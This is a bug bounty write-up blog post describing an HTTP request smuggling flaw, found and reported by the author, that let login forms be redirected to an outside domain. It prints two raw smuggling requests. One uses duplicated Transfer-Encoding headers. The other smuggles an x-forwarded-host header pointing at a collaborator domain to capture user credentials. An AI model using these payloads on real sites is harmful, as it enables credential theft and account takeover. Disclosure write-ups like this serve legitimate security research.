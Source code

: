 ```yaml
---
layout: post
title: Stealing Login Credentials using HTTP Request Smuggling
date: 2023-08-15 07:03 +0000
categories: [bugbounty, writeup]
tags: [bugbounty] 
---
```


I recently discovered a significant security vulnerability in a target. The vulnerability, HTTP request smuggling, allowed me to manipulate the application's behavior, potentially compromising user credentials. I responsibly reported this vulnerability to the application's development team, who took appropriate measures to address it.

## Description

The vulnerability I found in the target is an instance of HTTP request smuggling. It arises when an attacker can manipulate the application's interpretation of HTTP requests, leading to behaviors that differ from the intended ones. By exploiting this vulnerability, an attacker could gain unauthorized access to user credentials, potentially compromising their accounts.

### Confirmation of Vulnerability

To confirm the presence of the vulnerability, I crafted a malicious HTTP request using the following payload:

```

POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /robots.txt HTTP/1.1
X-Ignore: X
```

Instead of the expected response of "302," the application returned a "404" status code, indicating that the vulnerability was present.

![Screenshot](https://jaksan.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F22149b15-d733-4242-b5ad-6d1645d78a09%2FScreenshot_2023-05-16_at_12.07.05_PM(1).jpg?table=block&id=5f03f4bc-0539-4e4c-87aa-5ba0aa8d37d2&spaceId=13ac45fb-0b3e-4834-8b18-ec6f584d18fd&width=2000&userId=&cache=v2)

### Exploiting the Vulnerability

Further investigation using param-miner extension revealed that the application accepts the **x-forwarded-for** header, which allowed me to manipulate the "Host" value in the response. With this information, I crafted a second request to redirect the base URL of the login form to a controlled domain, as demonstrated by the following payload:

```

POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Content-Type: application/x-www-form-urlencoded
Content-Length: 421
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /ENDPOINT HTTP/1.1
x-forwarded-host: gbvun9lgwxse701bwnjfn68snjtah25r.oastify.com
X-Ignore: X
```

This manipulation changed the base URL of the login request form to a malicious domain, allowing an attacker to intercept user credentials.

![Screenshot 2 ](https://jaksan.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fe67ab3da-1b94-4a50-a083-2bf026eb2be6%2FScreenshot_2023-05-22_at_9.27.15_PM.png?table=block&id=2c1eb8d5-52a8-4f58-9619-e4114745142c&spaceId=13ac45fb-0b3e-4834-8b18-ec6f584d18fd&width=2000&userId=&cache=v2)

### Potential Impact

The impact of this vulnerability is severe. When a legitimate user logs in to the affected application, their credentials are unknowingly sent to the malicious domain controlled by the attacker. This could lead to unauthorized access, account takeover, or further compromise of sensitive data.

### Reference

[PortSwigger](https://portswigger.net/web-security/request-smuggling)